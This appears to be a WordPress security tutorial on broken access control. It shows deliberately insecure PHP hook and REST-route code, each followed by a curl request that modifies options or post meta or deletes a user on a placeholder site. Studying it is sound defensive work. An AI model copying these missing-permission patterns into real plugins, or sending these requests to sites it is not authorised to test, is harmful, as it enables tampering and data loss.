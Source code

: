 ```yaml
---
title: Broken Access Control
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible Broken Access Control on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to access or update sensitive information.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/academy/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/academy/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/academy/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/academy/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

<LinkCard
  title="Learn how to secure you code against Broken Access Control"
  href="/wordpress/securing-code/broken-access-control/"
/>

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code:

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        update_option("user_data", sanitize_text_field($_GET_["data"]));
    }
}
```

To exploit this, an unauthenticated user just needs to visit the front page of a WordPress site and specify the parameter to trigger the `update_option` function which in this case will modify sensitive information.

```bash
curl <WORDPRESS_BASE_URL>/?update=1&data=test
```

## `admin_init` hook

For more details about the `admin_init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code:

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST["delete"])){
        delete_option("custom_admin_menu");
    }
}
```

To exploit this, the unauthenticated user just needs to perform a POST request to the `admin-ajax.php` and `admin-post.php` endpoints specifying the needed parameter to trigger the `delete_option` function to remove sensitive data.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat -d "delete=1"
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, any authenticated user (**Subscriber+** role) just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_post_meta` function to update arbitrary WP Post metadata.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data&update=1 -d "id=1&data=changed"
``` 

## [`wp_ajax_nopriv_{$action}`](https://developer.wordpress.org/reference/hooks/wp_ajax_nopriv_action/) hook

For more details on the `wp_ajax_nopriv_{$action}` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#wp_ajax_nopriv_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_toggle_menu_bar", "toggle_menu_bar");

function toggle_menu_bar(){
    if ($_POST["toggle"] === "1"){
        update_option("custom_toggle", 1);
    }
    else{
        update_option("custom_toggle", 0);
    }
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_option` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=toggle_menu_bar -d "toggle=1"
``` 

## `register_rest_route` function

For more details on the `register_rest_route` function, please refer to this [documentation](/academy/wordpress/wordpress-internals/functions/#register_rest_route-function).

Sometimes, developers don't implement a proper permission check on the custom REST API route and use the `__return_true` string as the permission callback. This makes the custom REST API route to be publicly accessible.

```php
add_action( 'rest_api_init', function () {
  register_rest_route( 'myplugin/v1', '/delete/author', array(
    'methods' => 'POST',
    'callback' => 'delete_author_user',
    'permission_callback' => '__return_true',
  ) );
} );

function delete_author_user($request){
    $params = $request->get_params();
    wp_delete_user(intval($params["user_id"]));
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/delete/author` endpoint specifying the needed parameter to trigger the `wp_delete_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/delete/author -d "user_id=1"
``` 

Other cases could exist where developers already specify a proper function on the `permission_callback` parameter, however, the permission check implemented inside the function itself is not proper to what process can be done from the REST API route `callback` function.